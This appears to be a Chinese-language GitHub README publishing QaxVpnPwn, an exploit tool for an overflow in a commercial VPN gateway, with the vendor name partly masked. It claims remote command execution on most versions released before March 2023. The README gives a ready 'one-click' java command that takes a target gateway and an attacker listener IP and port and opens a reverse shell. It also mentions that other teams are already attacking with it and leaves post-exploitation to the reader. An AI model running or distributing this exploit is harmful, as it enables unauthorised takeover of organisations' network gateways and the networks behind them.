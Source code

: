 # q*xin-vpn-pwn
某信vpn pwn溢出

已经看到有别的队伍在打了，预告一波，晚点放

## today


### 详情

某信vpn pwn溢出，可执行命令反弹shell，不过设备底层的系统阉割掉了很多东西，怎么后利用大家自己研究吧。

远古版本的3某0界面的vpn只有很小一部分能打，q某x界面的大多数都能打（23年3月发布的这款之前）


一键反弹：
```shell
java -jar QaxVpnPwn.jar -t vpn网关地址 -p vpn网关端口 -re_t 反弹监听ip -re_p 反弹监听端口

example：
java -jar QaxVpnPwn.jar -t vpn.xxx.com -p 443 -re_t x.x.x.x -re_p xxx
```

![](pwn.png)


![](reverse.png)

### 说明

1、同目录的这些dll一个都不要少（可能部分dll多余了，但是调试的时候太乱了就全放进来了），不然可能打不成功。

2、pwn类型的洞没办法跟之前一样贴http数据包，想深入研究的可以自己逆向～

3、公关就删！



